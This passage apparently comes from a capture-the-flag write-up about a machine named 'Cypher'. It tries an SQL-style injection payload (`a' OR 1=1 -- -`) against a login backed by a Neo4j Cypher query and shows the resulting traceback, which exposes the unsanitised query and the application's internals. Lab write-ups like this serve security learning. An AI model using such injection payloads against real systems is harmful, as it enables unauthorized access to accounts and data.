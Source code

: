 ![Cypher-1740862588566.png](/assets/img/img_Cypher/Cypher-1740862588566.png)

We can attempt to do a simple `SQLi` using the following payload:

```
a' OR 1=1 -- -
```

Which results in the following:

```
Traceback (most recent call last):
File "/app/app.py", line 142, in verify_creds
results = run_cypher(cypher)
File "/app/app.py", line 63, in run_cypher
return [r.data() for r in session.run(cypher)]
File "/usr/local/lib/python3.9/site-packages/neo4j/_sync/work/session.py", line 314, in run
self._auto_result._run(
File "/usr/local/lib/python3.9/site-packages/neo4j/_sync/work/result.py", line 221, in _run
self._attach()
File "/usr/local/lib/python3.9/site-packages/neo4j/_sync/work/result.py", line 409, in _attach
self._connection.fetch_message()
File "/usr/local/lib/python3.9/site-packages/neo4j/_sync/io/_common.py", line 178, in inner
func(*args, **kwargs)
File "/usr/local/lib/python3.9/site-packages/neo4j/_sync/io/_bolt.py", line 860, in fetch_message
res = self._process_message(tag, fields)
File "/usr/local/lib/python3.9/site-packages/neo4j/_sync/io/_bolt5.py", line 370, in _process_message
response.on_failure(summary_metadata or {})
File "/usr/local/lib/python3.9/site-packages/neo4j/_sync/io/_common.py", line 245, in on_failure
raise Neo4jError.hydrate(**metadata)
neo4j.exceptions.CypherSyntaxError: {code: Neo.ClientError.Statement.SyntaxError} {message: Failed to parse string literal. The query must contain an even number of non-escaped quotes. (line 1, column 68 (offset: 67))
"MATCH (u:USER) -[:SECRET]-> (h:SHA1) WHERE u.name = 'a' OR 1=1 -- -' return h.value as hash"
^}

During handling of the above exception, another exception occurred:

Traceback (most recent call last):
File "/app/app.py", line 165, in login
creds_valid = verify_creds(username, password)
File "/app/app.py", line 151, in verify_creds
raise ValueError(f"Invalid cypher query: {cypher}: {traceback.format_exc()}")
ValueError: Invalid cypher query: MATCH (u:USER) -[:SECRET]-> (h:SHA1) WHERE u.name = 'a' OR 1=1 -- -' return h.value as hash: Traceback (most recent call last):
File "/app/app.py", line 142, in verify_creds
results = run_cypher(cypher)
```